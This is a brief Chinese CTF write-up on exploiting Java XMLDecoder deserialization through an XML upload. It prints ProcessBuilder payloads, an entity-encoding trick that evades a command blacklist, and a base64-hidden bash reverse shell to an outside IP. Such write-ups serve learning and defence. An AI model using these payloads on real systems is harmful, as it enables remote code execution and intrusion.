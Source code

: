 是知识盲区没错了。学一手WP。

虽然限制了后缀，但是可以上传xml。注意到`baseDao`：

```java
    public static void getConfig() throws FileNotFoundException {
        Object obj = (new XMLDecoder(new FileInputStream(System.getenv("CATALINA_HOME") + "/webapps/ROOT/db/db.xml"))).readObject();
        if (obj instanceof HashMap) {
            HashMap map = (HashMap)obj;
            if (map != null && map.get("url") != null) {
                driver = (String)map.get("driver");
                url = (String)map.get("url");
                username = (String)map.get("username");
                password = (String)map.get("password");
            }
        }

    }
```

存在`XMLDecoder`的漏洞，这里直接把payload打了，下一篇文章去分析一下原理。

正常的就是类似XML，里面可以写上命令执行：

```java
<java version="1.7.0_80" class="java.beans.XMLDecoder">
 <object class="java.lang.ProcessBuilder">
  <array class="java.lang.String" length="1">
    <void index="0"><string>calc</string></void>
  </array>
  <void method="start"></void>
 </object>
</java>
```

如果`XMLDecoder`解析了这个xml，就会导致命令执行。

但是内容ban了一些命令执行，考虑到是xml，可以利用实体编码来绕过：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java>
<object class="java.lang.&#80;rocessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjEuNS4xNjkuMjIzLzM5ODc2IDA+JjE=}|{base64,-d}|{bash,-i}</string>
</void>
</array>
<void method="start"/>
</object>
</java>
```
